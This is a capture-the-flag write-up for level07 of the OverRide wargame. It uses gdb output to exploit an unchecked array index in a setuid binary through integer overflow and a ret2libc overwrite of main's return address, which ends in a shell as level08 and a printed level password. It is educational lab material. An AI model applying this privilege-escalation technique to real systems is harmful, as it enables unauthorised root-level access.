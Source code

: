 # Walkthrough

## Context

### Binary info

```bash
level07@OverRide:~$ ls -l
total 12
-rwsr-s---+ 1 level08 users 11744 Sep 10  2016 level07
level07@OverRide:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf5b46cdb878d5a3929cc27efbda825294de5661e, not stripped
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 3
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 3
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 3
 Completed read command successfully
Input command: quit
```

An elf binary compiled for Intel 80386 arch with level08's privileges

### Functions

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x080485c4  clear_stdin
0x080485e7  get_unum
0x0804861f  prog_timeout
0x08048630  store_number
0x080486d7  read_number
0x08048723  main
...
```

### Variables

```assembly
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
```

No global variables

### Disassembly

Please refer to the [assembly.asm](./Resources/assembly.asm) and [source.c](./source.c) for better understanding

#### 'main'

```assembly
(gdb) disas main
Dump of assembler code for function main:
...
   0x08048729 <+6>:     and    $0xfffffff0,%esp
   0x0804872c <+9>:     sub    $0x1d0,%esp
...
   0x08048791 <+110>:   lea    0x24(%esp),%ebx
...
   0x080488ea <+455>:   call   0x8048630 <store_number>
...
End of assembler dump.
```

We will be using 'store_number' function to overwrite 'main' ret.

#### 'store_number'

```assembly
(gdb) disas store_number
Dump of assembler code for function store_number:
...
   0x08048633 <+3>:     sub    $0x28,%esp
...
   0x08048651 <+33>:    call   0x80485e7 <get_unum>
   0x08048656 <+38>:    mov    %eax,-0x10(%ebp)
...
   0x08048666 <+54>:    call   0x80485e7 <get_unum>
   0x0804866b <+59>:    mov    %eax,-0xc(%ebp)
...
   0x08048686 <+86>:    test   %edx,%edx
   0x08048688 <+88>:    je     0x8048697 <store_number+103>
...
   0x08048690 <+96>:    cmp    $0xb7,%eax
   0x08048695 <+101>:   jne    0x80486c2 <store_number+146>
...
   0x080486c2 <+146>:   mov    -0xc(%ebp),%eax
   0x080486c5 <+149>:   shl    $0x2,%eax
   0x080486c8 <+152>:   add    0x8(%ebp),%eax
   0x080486cb <+155>:   mov    -0x10(%ebp),%edx
   0x080486ce <+158>:   mov    %edx,(%eax)
   0x080486d0 <+160>:   mov    $0x0,%eax
   0x080486d5 <+165>:   leave
   0x080486d6 <+166>:   ret
End of assembler dump.
```

This function is our target, as it will use our input number as index to buffer

#### 'get_enum'

```assembly
(gdb) disas get_unum
Dump of assembler code for function get_unum:
...
   0x08048606 <+31>:    lea    -0xc(%ebp),%edx
...
   0x08048610 <+41>:    call   0x8048500 <__isoc99_scanf@plt>
...
   0x0804861a <+51>:    mov    -0xc(%ebp),%eax
...
End of assembler dump.
```

This function returns our input number in %eax register

## Exploit

We've discovered that with some conditions the store_number function will use our input number as an index to the passed buffer. Firstly we will compute an offset to the ret of 'main' and then we will find such a number that, multiplied by 4, will be equal to this offset and it must pass the conditions(not being divisible by 3). Then we will be using the ret2libc attack to replace ret with libc 'system' addres with /bin/sh argument

### Calculating offset

```bash
(gdb) break *0x08048732
Breakpoint 1 at 0x8048732
(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048732 in main ()
(gdb) i r
eax            0x1      1
ecx            0xffffd7a4       -10332
edx            0xffffd734       -10444
ebx            0xf7fceff4       -134418444
esp            0xffffd520       0xffffd520
ebp            0xffffd708       0xffffd708
esi            0x0      0
edi            0x0      0
eip            0x8048732        0x8048732 <main+15>
eflags         0x282    [ SF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```

We substract $ebp from $esp and - 4 bytes(ebp itself) - 0x24(buffer start) to get our offset

0xffffd708 - (0xffffd520 - 0x24) - 0x4 == 456

Also we need to divide by 4 because it is an int buffer

So the offset is 456 / 4 = 114

### Finding suitable number

So we need a number that is not divisible by 3 and when multiplied by 4 it must be equal to 114. We're going to use an int overflow to accomplish that

By trial an error we found such a number - 2147483762. 2147483762 + 2 is not divisible by 3 too for our /bin/sh argument


### Search for ret2libc addresses

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

We found 'system' address along with the /bin/sh string address

```python
>>> print(0xf7e6aed0)
4159090384
>>> print(0xf7f897ec)
4160264172
```

### Getting .pass

```bash
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 2147483764
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```